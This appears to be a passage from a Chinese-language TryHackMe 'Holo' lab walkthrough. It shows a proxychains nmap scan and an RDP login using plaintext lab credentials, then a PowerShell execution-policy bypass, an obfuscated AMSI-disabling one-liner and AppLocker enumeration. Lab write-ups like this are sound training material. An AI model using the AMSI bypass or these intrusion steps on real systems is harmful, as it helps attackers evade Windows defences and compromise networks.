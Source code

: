 ```

# PC-FILESRV01


10.200.114.35是我们还没有拿下的机器

对10.200.114.35进行扫描
```
┌──(root💀kali)-[~/tryhackme/holo]
└─# proxychains nmap -sT -Pn 10.200.114.35 --top-ports=100                                                                                                                                                                              1 ⨯
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-04 22:55 EDT
Nmap scan report for 10.200.114.35
Host is up (0.67s latency).
Not shown: 95 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

```

开启了3389，使用rdp进行远程登录

```
proxychains xfreerdp /u:watamet /p:'Nothingtoworry!' /v:10.200.114.35 +clipboard
```



拿到foothold

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659668437954.jpg)


绕过PS执行策略，关闭AMSI，枚举所有APPLOCKER

```
PS C:\Users\watamet> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\watamet> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
PS C:\Users\watamet> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
PS C:\Users\watamet> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

